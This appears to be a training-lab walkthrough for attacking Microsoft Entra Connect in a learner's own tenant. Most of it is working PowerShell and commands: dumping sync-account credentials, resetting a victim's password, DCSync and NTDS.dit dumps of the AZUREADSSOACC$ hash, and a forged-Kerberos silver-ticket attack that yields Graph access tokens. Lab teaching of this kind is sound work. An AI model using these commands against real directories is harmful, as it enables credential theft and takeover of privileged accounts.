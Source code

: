 # Lab 2 - Entra Connect Attacks
### Prepare a victim user with high privileges
in Entra portal (login with your admin tenant creds), select ***user1*** and assign it with the **Active** (not *Eligible*) **Application Administrator** role



# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM)

## 1. Extract Entra Connect Credentials and target a victim user

#### 1. Recon - Seamless SSO status + tenant id:
```powershell
Invoke-AADIntReconAsOutsider -DomainName YOURDOMAIN.onmicrosoft.com
```

#### 2. Dumping and Extracting Entra (Azure AD) Connect credentials:
1. run powershell as admin on the server where Entra Connect is installed
2. execute:
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

#### 2. Finding a target (victim) user to attack

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache

# method 1: 
$userUPN = "Sync_xxx@YOURDOMAIN.onmicrosoft.com" # change the username
Connect-AzureAD -AccountId  $userUPN  -TenantId $tenantId -AadAccessToken $at

# method 2:
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id,
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

## 2. Reset Password Attack
#### Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```

Now, open https://entra.microsoft.com in the browser **in incognito** and login as that user *VICTIM_USER@YOURDOMAIN.onmicrosoft.com* with the new password :)


#
## 3. Silver Ticket (Seamless SSO) Attack

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 1. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q # Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex # Get the password's hash of AZUREADSSOACC
# remote the empty spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 2. Find victim user to impersonate
1. option 1:
    ```powershell
    # Option 1: query Entra + get roles
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


    # Option 2: query AD (w/o getting Entra roles)
    Get-ADReplAccount -SamAccountName 'VICTIM_USER' -Domain $domain -Server dcvm # take the "Sid:" part
    ```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 4. Perform the attack
```powershell
# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at = Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain $domain".onmicrosoft.com"
# if you get AADSTS50079 error, it might mean you have a conditional access policy in your Entra tenant named "Security info registration for Microsoft partners and vendors" that blocks this login, you need to reinstall the entire lab from scratch and associate it yo your new tenant

# start exploring using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgUser
#Readme: https://aka.ms/graph/sdk/powershell
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
#API Docs: https://aka.ms/graph/docs
```
What can you do now that you are an Application Administrator?